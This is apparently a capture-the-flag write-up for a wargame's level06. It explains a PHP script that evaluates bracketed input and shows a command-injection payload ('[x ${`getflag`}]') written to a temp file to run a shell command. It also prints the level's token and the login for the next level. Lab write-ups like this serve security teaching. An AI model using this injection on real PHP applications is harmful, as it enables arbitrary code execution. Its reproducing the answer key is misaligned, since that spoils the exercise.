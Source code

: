 ## PHP Script Explanation

The PHP script `level06.php` contains the following functions:

1. **Function `y($m)`**:
   - Replaces all occurrences of `.` with ` x ` and `@` with ` y` in the input string `$m`.
   - Returns the modified string.

2. **Function `x($y, $z)`**:
   - Reads the contents of the file specified by `$y`.
   - Processes the contents using regular expressions:
     - It executes the `y()` function for any command enclosed in `[x ...]`.
     - Replaces `[` with `(` and `]` with `)` in the contents.
   - Returns the processed string.

3. **Execution**:
   - The script takes command-line arguments and processes the specified file.
   - The output is printed to the terminal.

## Executing the Command

To exploit this script to execute the `getflag` command, follow these steps:

1. **Create the Input File**:
   - Create a file in `/tmp/` with the following content:
     ```bash
     echo '[x ${`getflag`}]' > /tmp/06
     ```

2. **Run the PHP Script**:
   - Execute the script using:
     ```bash
     /usr/bin/php level06.php /tmp/06
     ```

3. **Output**:
   - You may encounter a PHP notice due to the script's handling of the command. The expected output will display the flag, e.g.,:
     ```
     Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
     ```

4. **Enter Level 07**:

    ```bash
    su level07
    Password: wiok45aaoguiboiki2tuin6ub     
    ```